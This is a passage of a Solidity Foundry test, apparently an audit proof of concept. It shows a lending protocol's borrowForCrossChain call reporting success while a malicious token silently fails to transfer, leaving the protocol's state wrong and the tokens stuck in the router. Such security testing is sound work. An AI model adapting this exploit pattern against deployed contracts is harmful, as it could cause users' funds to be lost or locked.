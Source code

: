 ```solidity 
            maliciousToken.balanceOf(exploitVictim),
            0,
            "Victim should not have received any tokens despite 'successful' borrow"
        );
        
        // Log the exploit
        console.log("EXPLOIT SUCCESSFUL: borrowForCrossChain completed but tokens were not transferred");
        console.log("CoreRouter balance:", maliciousToken.balanceOf(address(coreRouter)));
        console.log("Victim balance:", maliciousToken.balanceOf(exploitVictim));
    }
    
    function testFunctionSucceedsButTransferFails() public {
        // Create a special victim address that will trigger the silent transfer failure
        address silentFailVictim = address(0x1234);
        
        // Pretend to be the CrossChainRouter
        vm.startPrank(crossChainRouter);
        
        // Record transaction success/failure
        bool txSuccess = true;
        
        // Try to call the function
        try coreRouter.borrowForCrossChain(
            silentFailVictim,        // victim
            100 ether,               // amount
            address(mockLToken),     // mock lToken
            address(maliciousToken)  // malicious token
        ) {
            // Function succeeded
            console.log("borrowForCrossChain function SUCCEEDED");
        } catch {
            // Function failed
            txSuccess = false;
            console.log("borrowForCrossChain function failed");
        }
        
        vm.stopPrank();
        
        // Verify the outcome
        assertTrue(txSuccess, "Transaction should have succeeded despite transfer failure");
        assertEq(
            maliciousToken.balanceOf(silentFailVictim),
            0,
            "Victim should have 0 balance despite 'successful' transaction"
        );
        
        // This is the critical finding - the state thinks the borrow succeeded
        // but the tokens were never transferred
        console.log("---------- CRITICAL SECURITY ISSUE ----------");
        console.log("Transaction succeeded: Yes");
        console.log("Tokens transferred: No");
        console.log("Protocol state: Thinks tokens were transferred");
        console.log("Real result: Tokens stuck in CoreRouter");
    }
}
```
